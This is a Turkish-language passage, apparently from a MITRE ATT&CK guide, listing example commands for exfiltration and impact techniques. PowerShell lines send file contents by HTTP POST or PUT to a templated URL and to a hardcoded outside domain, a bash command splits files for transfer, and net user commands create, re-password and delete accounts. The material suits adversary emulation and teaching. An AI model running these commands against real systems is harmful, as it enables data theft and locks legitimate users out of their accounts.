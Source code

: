 2. ****Exfiltration Over C2 Channel (T1041)****
    
    Örnek komut:
    
    ```powershell
    if(-not (Test-Path #{filepath})){ 
      1..100 | ForEach-Object { Add-Content -Path #{filepath} -Value "This is line $_." }
    }
    [System.Net.ServicePointManager]::Expect100Continue = $false
    $filecontent = Get-Content -Path #{filepath}
    Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
    ```
    
3. ****Data Transfer Size Limits (T1030)****
    
    Örnek komut:
    
    ```bash
    cd #{folder_path}; split -b 5000000 #{file_name}
    ls -l #{folder_path}
    ```
    
4. ****Automated Exfiltration (T1020)****
    
    Örnek komut:
    
    ```powershell
    $fileName = "#{file}"
    $url = "https://adilsoybali.com"
    $file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
    $contentType = "application/octet-stream"
    try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
    ```
    

---

## **Impact (TA0040)**

Veriler manipule edilir, sistem kesintiye uğratılır veya yok edilir. Kullanılan teknikler arasında verilerin yok edilmesi veya bozulması yer alabilir. Bazı durumlarda iş süreçleri iyi görünebilir ancak saldırganların hedeflerine fayda sağlayacak şekilde değiştirilmiş olabilir. Bu teknikler, saldırganlar tarafından nihai hedeflerine ulaşmak için veya bir gizlilik ihlaline karşı koruma sağlamak için kullanılabilir.

1. ****Account Access Removal (T1531)****
    
    Örnek komut:
    
    ```powershell
    net user #{user_account} #{new_user_password} /add
    net.exe user #{user_account} #{new_password}
    ```
    
    ```powershell
    net user #{user_account} #{new_user_password} /add
    net.exe user #{user_account} /delete
    ```
    